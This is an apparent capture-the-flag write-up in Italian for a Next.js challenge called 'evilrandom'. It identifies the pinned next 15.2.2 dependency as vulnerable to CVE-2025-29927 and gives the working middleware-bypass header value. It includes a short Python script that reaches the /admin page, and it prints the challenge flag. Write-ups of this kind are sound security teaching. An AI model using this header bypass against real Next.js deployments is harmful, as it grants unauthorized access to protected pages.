


# Evil Random (`evilrandom`)

La challenge espone un sito web che 'genera' parole casuali estraendole da un file di testo, scritta con `next.js`.

Analizzando attentamente il progetto non si trovano problemi evidenti, ed in effetti la vulnerabilità **non** si trova nel codice.
Il problema è proprio la versione utilizzata di `next.js`, la `15.2.2`.
```json
{
  "name": "evilrandom",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev --turbopack",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "cookie": "^1.0.2",
    "next": "15.2.2",
    "react": "^19.0.0",
    "react-dom": "^19.0.0"
  }
}

```

Questa versione è vulnerabile a [CVE-2025-29927](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware) (scoperto circa 3 mesi fa).
Per accorgersene ci sono diversi modi, quello più semplice è provare a buildare con `npm` il progetto in locale:



E riconoscere la vulnerabilità con `npm audit`.



A questo punto sappiamo che il CVE ci permette di **bypassare** l'autenticazione del **middleware**, e di accedere alla pagina dell'admin, dove c'è la flag.
Per farlo si trovano diverse guide online, ma sostanzialmente l'exploit si basa sull'utilizzo scorretto di un header `x-middleware-subrequest`, che avrebbe l'intento di evitare richieste ricorsive infinite fatte dal middleware, skippandolo quando ce ne sono più di 5 (più dettagli [qua](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)).


A questo punto, basterà fare una richiesta con questo header e 5 "finte" richieste:
`"x-middleware-subrequest" : "middleware:middleware:middleware:middleware:middleware"`

```python
import requests
h = "middleware:middleware:middleware:middleware:middleware"
r = requests.get("http://localhost:8003/admin", headers={"x-middleware-subrequest": h}, allow_redirects=False)
print(r.text)
```

Flag: `rossiCTF{m1dDl3W4r3_Byp4Ss_h3ll_y3ahHh!!_7dc19f}`